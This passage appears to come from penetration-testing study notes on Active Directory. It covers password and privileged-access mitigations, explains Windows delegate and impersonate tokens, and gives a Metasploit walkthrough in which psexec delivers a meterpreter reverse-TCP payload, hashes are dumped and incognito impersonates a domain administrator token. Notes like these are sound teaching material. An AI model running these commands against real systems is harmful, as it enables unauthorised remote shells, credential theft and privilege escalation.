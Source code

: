 * Limit account re-use
  * Avoid re-using local admin password
  * Disable Guest and Administrator accounts
  * Limit who is a local administrator (least privilege)
* Utilize strong passwords
  * The longer the better
  * Avoid using common words
  * Long sentences
* Privilege Access Management (PAM)
  * Check out/in sensitive accounts when needed
  * Automatically rotate passwords on check out and check in
  * Limits pass attacks as hash/password is strong and constantly rotated

## Token Impersonation

### Overview

#### What are tokens?

* Temporary keys that allow you to access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

#### Two Types

* Delegate - Created for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attach a network drive or a domain logon script

### Token Impersonation with Incognito

#### Metasploit

```bash
msfconsole
use exploit/windows/smb/psexec
# Set RHOSTS, SMBDomain, SMBPass, and SMBUser; 
# set target 2; set payload windows/x64/meterpreter/reverse_tcp; set LHOST
run
# hashdump
# getuid
# sysinfo
load incognito
help
list_tokens -u
impersonate_token marvel\\administrator
shell
whoami
```

### Mitigation

#### Strategies
